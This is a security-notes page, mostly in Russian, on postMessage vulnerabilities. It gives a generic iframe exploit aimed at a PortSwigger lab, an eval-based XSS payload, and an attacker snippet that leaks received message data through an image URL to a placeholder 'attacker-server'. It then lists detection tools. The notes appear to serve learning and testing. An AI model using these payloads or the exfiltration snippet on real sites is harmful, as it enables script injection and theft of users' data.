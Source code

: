 # window.postMessage

## Intro: что такое postMessage

Это метод `cross-origin` коммуникации между элементами `Window`: между страницей и всплывающим окном этой страницы, между страницей и `iframe`, встроенным в нее, и тп

Обычно, скрипты имеют доступ к друг другу на разных страницах если, и только если, имеют одинкавый протокол, хост и порт ([same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin\_policy)). `postMessage` дает безопасный способ обойти это ограничения (если правильно использовать).

В общем, одно окно может получить ссылку на другое (например, через `targetWindow = window.opener`), а затем отправить ему `MessageEvent` с помощью `targetWindow.postMessage()`. Получающее окно тогда свободно обрабатывать это событие по мере необходимости. Аргументы, передаваемые в `window.postMessage()` (то есть «сообщение»), открываются принимающему окну через объект события.

Общий exploit для страницы, на которой открыт web message communication

```markup
<html>
    <head>
        <title>DOM based vulns</title>
    </head>
    <body>
        <script>
            function callback() {
                document.getElementById('target_website').contentWindow.postMessage('my data to web message listener', '*');
            }
        </script>
        <iframe id="target_website" onload="callback()" src="https://0abf00eb04791b73c0d62af8001a00d0.web-security-academy.net/">
        </iframe>
    </body>
</html>
```

## К чему может привести неправильное использование

### XSS

Где-то обрабатывается message:

```javascript
function (b){b.data.evalCall&&eval("("+b.data.evalCall+")")}
```

Мы отправляем сообщение

```javascript
b.postMessage({"evalCall":"alert(document.domain)"},"*")
```

Это возможно, если секция вызова postMessage является уязвимой или настройка CORS на принимающей стороне является уязвимой.

### Leak Sensitive Data

vuln page

```javascript
function parent_getUserInfo()
{
   var userdata=[name,age, ...];
   parent.postMessage(userdata);
}
```

attacker

```markup
<img src="http://attacker-server/?" id=message> 
<script>
 window.onmessage = function(e){  
  document.getElementById("message").src += "&"+e.data;
 }
</script>
```

## Tools

Есть инструмент для мониторинга использования postMessages - [https://github.com/fransr/postMessage-tracker](https://github.com/fransr/postMessage-tracker)

Оформлена как Google extension (но и в ff стартует вроде тож)



To exploit the postMessage() vulnerabilities, first, it is required to know if the target application is using web messaging or not. If the target application uses web messaging, it is essential to identify the various listeners. There are several methods to do so, including:

1. **Searching for the keywords:** Use the developer tool’s global search option to search for specific keywords such as **postMessage(), addEventListener(“message, .on(“message”** in the javascript files.
2. **Using** [**MessPostage**](https://github.com/Sjord/messpostage) **Browser Extension:** Using this extension is an easy way to detect whenever an application usage postMessage() APIs. This also shows which messages were sent and where event listeners have been added:
3. **Using Developer Tools:** The “Global Listener” feature present in the “Sources” pane of Developer tools can be used to identify the use of postMessage(). After opening the Global Listener, click on “messages” to view the message handlers.
4. **Using** [**Posta**](https://github.com/benso-io/posta)**:** Posta is a tool for researching Cross-document Messaging communication. It allows you to track, explore and exploit `postMessage` vulnerabilities, and includes features such as replaying messages sent between windows within any attached browser.
5. **Using** [**PMHook**](https://github.com/yehgdotnet/postmessagehook)**:** PMHook is a client-side JavaScript library designed to be used with TamperMonkey in the Chrome web browser. Executed immediately at page load, PMHook wraps the **EventTarget.addEventListener** method and logs any subsequent message event handers as they are added. The event handler functions themselves are also wrapped to log messages received by each handler.

Если надо проверить быстренько, что post messages шлются на странице, можно в консоли вбить и ловить сообщения:

```
window.addEventListener('message', data => console.log(data))
```
